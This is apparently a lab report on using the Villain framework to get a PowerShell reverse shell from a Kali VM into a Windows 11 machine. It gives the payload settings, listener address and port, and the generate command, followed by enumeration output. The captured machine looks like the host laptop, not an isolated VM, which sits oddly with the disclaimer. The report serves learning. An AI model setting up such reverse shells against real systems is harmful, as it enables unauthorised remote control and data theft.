 # 🦹‍♂️ Villain Framework Reverse Shell Report

> **Lab-only disclaimer:** This exercise was performed strictly on my own isolated VMs for learning and defensive purposes. No third-party or production systems were targeted.

---

## ⚙️ Setup Info
| Parameter | Value |
|-----------|-------|
| Payload | `windows/reverse_tcp/powershell` |
| LHOST | `192.168.56.101` |
| LPORT | `8080` |
| Target OS | Windows 11 Home Single Language (Build 22631) |
| Attacker OS | Kali Linux |

---

## 🔁 Payload Delivery Method
- **Method:** Payload generated in Villain using `generate os=windows lhost=eth1`.
- **Execution:** The generated PowerShell command was executed on the target VM in a PowerShell terminal.
- **Network:** Host-only VirtualBox network between Kali attacker VM and Windows target VM.

---

## 🖥️ Captured Info
| Field | Value |
|-------|-------|
| Hostname | LAPTOP-JNNA97BM |
| IP Address | 192.168.56.1 |
| User | laptop-jnna97bm\lenovo |

---
## 🛑 Final Verification
![1](Assignment3/verification.png)

## 🔎 Enumeration Performed
```powershell
whoami
laptop-jnna97bm\lenovo

ipconfig
Ethernet adapter Ethernet 3:
   IPv4 Address. . . . . . . . . . . : 192.168.56.1
   Subnet Mask . . . . . . . . . . . : 255.255.255.0

Wireless LAN adapter Wi-Fi:
   IPv4 Address. . . . . . . . . . . : 10.30.56.61
   Subnet Mask . . . . . . . . . . . : 255.255.255.0

systeminfo
Host Name:                 LAPTOP-JNNA97BM
OS Name:                   Microsoft Windows 11 Home Single Language
OS Version:                10.0.22631 N/A Build 22631
System Manufacturer:       LENOVO
System Model:              82K2
System Type:               x64-based PC
Processor(s):              AMD64 Family 25 Model 80 Stepping 0 AuthenticAMD ~1908 Mhz
Total Physical Memory:     14,188 MB



